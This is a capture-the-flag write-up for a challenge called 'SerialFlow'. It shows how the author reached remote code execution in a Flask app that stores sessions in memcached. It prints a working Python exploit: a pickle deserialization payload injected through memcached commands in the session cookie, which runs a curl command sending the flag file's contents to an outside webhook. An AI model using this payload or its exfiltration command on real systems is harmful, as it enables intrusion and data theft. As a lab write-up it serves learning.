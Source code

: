 # SerialFlow

So we start off with a simple page that has no input or interaction visible:

<figure><img src="../../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

So i open vscode and start looking for the routes and any information that i can find:

<figure><img src="../../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

that seemed odd

<figure><img src="../../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

and we discovered a route with a parameter we can try...

<figure><img src="../../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

But it really didn't do anything so i started looking at the memcached thing and found some nice stuff:

{% embed url="https://hacktricks.boitatech.com.br/pentesting/11211-memcache" %}

and on portswigger we found a link for this page:

{% embed url="https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/" %}

and what caught my eye was the fact that there was some flask session signing algorythm just like in our challenge, the goal is to convert a stream of bytes into a Python object and get remote code execution. The POC of this article helps us with that

I don't know what i did to trigger this error but somehow the flag poped up:

```python
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('curl -X POST -d "flag=$(cat /flag*.txt)" https://webhook.site/ee80bfca-5128-4dbd-9532-6eff5b82e43')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = b'137\r\nset BT_:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get BT_:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
print(generate_exploit())
```

so i wanted to copy the value of the flag and send it to my webhook, then i got this output:

<figure><img src="../../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Then i went in burp and replaced the session cookie with the payload and sent it to get the flag (it did not send the data to my webhook but still got the flag lol:

<figure><img src="../../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>
